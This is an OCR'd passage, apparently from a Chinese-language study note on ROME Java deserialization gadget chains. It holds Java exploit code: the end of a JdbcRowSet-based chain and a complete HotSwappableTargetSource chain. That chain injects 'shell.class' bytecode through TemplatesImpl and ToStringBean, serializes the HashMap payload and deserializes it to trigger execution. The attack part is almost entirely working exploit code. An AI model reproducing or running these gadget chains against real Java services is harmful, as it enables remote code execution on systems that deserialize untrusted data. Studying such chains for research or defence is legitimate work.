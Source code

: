 ```plain
        Field field = toStringBean.getClass().getDeclaredField("_obj");
        field.setAccessible(true);
        field.set(toStringBean,jdbcRowset);
//        serialize(hashMap);
        unserialize("ser.bin");
}

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## EXP(HotSwappableTargetSource):

这条是 spring 原生的 toString 利用链，后续在研究，调用链如下

```plain
* HashMap.readObject
* HashMap.putVal
* HotSwappableTargetSource.equals
* XString.equals
* ToStringBean.toString
public class ROME_HotSwappableTargetSource {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templatesimpl = new TemplatesImpl();

        byte[] bytecodes = Files.readAllBytes(Paths.get("D:\\CTF\\Security_Learning\\ROME\\target\\classes\\shell.class"));

        setValue(templatesimpl,"_name","aaa");
        setValue(templatesimpl,"_bytecodes",new byte[][] {bytecodes});
        setValue(templatesimpl, "_tfactory", new TransformerFactoryImpl());

        ToStringBean toStringBean = new ToStringBean(TemplatesImpl.class,templatesimpl);
        toStringBean.toString();

        HotSwappableTargetSource h1 = new HotSwappableTargetSource(toStringBean);
        HotSwappableTargetSource h2 = new HotSwappableTargetSource(new XString("xxx"));

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(h1,h1);
        hashMap.put(h2,h2);

        Serial.Serialize(hashMap);
        Serial.DeSerialize("ser.bin");
    }

    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

}
```
